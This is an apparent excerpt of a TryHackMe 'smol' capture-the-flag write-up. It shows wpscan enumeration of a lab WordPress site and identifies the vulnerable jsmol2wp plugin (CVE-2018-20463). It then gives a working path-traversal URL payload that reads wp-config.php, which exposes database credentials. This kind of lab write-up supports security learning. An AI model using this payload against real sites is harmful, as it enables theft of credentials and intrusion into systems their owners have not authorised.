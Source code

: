 ```bash
┌──(kali㉿kali)-[~/tryhackme/smol]
└─$ wpscan --url http://www.smol.thm/ -e ap, vt --force --api-token REDACTED
[+] URL: http://www.smol.thm/ [10.10.172.153]
.....
[+] jsmol2wp
 | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Cross-Site Scripting (XSS)
 |     References:
 |      - https://wpscan.com/vulnerability/0bbf1542-6e00-4a68-97f6-48a7790d1c3e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20462
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
 |
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Server Side Request Forgery (SSRF)
 |     References:
 |      - https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20463
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
```

It had jsmol2wp plugin installed, which was vulnerable, so i googled about it and found it was CVE-2018-20463 WordPress JSmol2WP <=1.07 - Local File Inclusion.

Description: |
WordPress JSmol2WP plugin 1.07 is susceptible to local file inclusion via ../ directory traversal in query=php://filter/resource= in the jsmol.php query string. An attacker can possibly obtain sensitive information, modify data, and/or execute unauthorized administrative operations in the context of the affected site. This can also be exploited for server-side request forgery.

[https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2018/CVE-2018-20463.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2018/CVE-2018-20463.yaml)

```bash
{{BaseURL}}/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php

# We just have to put our base url ahead of it and it will show wp-config.php page to us.

[http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php](http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php)
```
